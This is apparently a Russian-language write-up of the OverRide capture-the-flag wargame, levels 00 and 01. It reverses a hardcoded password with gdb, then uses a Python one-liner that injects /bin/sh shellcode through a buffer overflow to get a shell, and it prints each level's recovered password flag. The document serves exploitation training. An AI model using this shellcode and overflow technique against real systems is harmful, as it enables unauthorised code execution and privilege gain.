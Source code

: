 # override

LEVEL00
		
level00@OverRide:~$ ./level00
***********************************
* 	     -Level00 -		  *
***********************************
Password:
		
Видим, что требуется в пароль.
		
$ gdb level00
		
В main происходит сравнение строки, поданной нами в качестве 
пароля с 0x149c, что соответствует  5276 в десятичной.
		
0x080484e7 <+83>:	cmp    $0x149c,%eax

Если подается что-то другое то команда jne перебрасывается 
мимо необходимой команды system.

0x080484ec <+88>:	 jne    0x804850d <main+121>

$ ./level00
***********************************
* 	     -Level00 -		  *
***********************************
Password:5276

Authenticated!

$ cat /home/users/level01/.pass
uSq2ehEGT6c9S24zbshexZQBXUGrncxn5sD5QfGL

LEVEL01

 (cat /tmp/user ; cat) | ./level01

python -c "print 'dat_wil' + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + '\n' + 'A'*80 + '\x08\x04\xa0\x47'[::-1]" > /tmp/test

level01@OverRide:~$ cat /tmp/test - | ./level01

whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
